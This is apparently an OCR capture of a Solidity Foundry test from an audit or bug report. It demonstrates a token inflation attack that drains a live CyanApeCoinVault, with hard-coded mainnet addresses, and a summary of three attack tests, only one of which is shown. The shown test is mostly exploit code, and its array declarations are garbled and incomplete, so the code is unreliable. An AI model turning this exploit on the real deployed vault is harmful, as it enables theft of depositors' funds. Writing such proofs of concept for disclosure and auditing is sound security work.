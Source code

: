 ```solidity
        vault = CyanApeCoinVault(0xCF9A19D879769aDaE5e4f31503AAECDa82568E55);
        apeCoin = IERC20Upgradeable(0x4d224452801ACEd8B2F0aebE155379bb5D594381);
        vaultToken = ICyanVaultTokenV1(vault.cyanVaultTokenContract());
        deal(address(apeCoin), address(vault), INITIAL_VAULT_BALANCE);
    }

    function testTokenInflationAttack() public {
        CyanApeCoinVault.DepositInfo ;
        deposits1[0] = CyanApeCoinVault.DepositInfo(attacker, 1); 
        vault.depositBatch(deposits1);

        CyanApeCoinVault.DepositInfo ;
        deposits2[0] = CyanApeCoinVault.DepositInfo(attacker, 1e18);
        vault.depositBatch(deposits2);

        uint256 attackerTokens = vaultToken.balanceOf(attacker);
        vault.withdraw(attackerTokens);
    }
}
```

---

## Test Cases Summary
1. **Basic Attack (`testTokenInflationAttack`)**  
   - Steals 1e18 ApeCoin with a minimal initial deposit, draining a significant portion of the vault.  
2. **Massive Attack (`testMassiveInflationAttack`)**  
   - Simulates repeated attacks to drain the vault completely, proving protocol insolvency.  
3. **Low Balance Attack (`testLowBalanceAttack`)**  
   - Demonstrates that even with minimal vault funds (1e18 ApeCoin), the attacker can drain the vault entirely.  

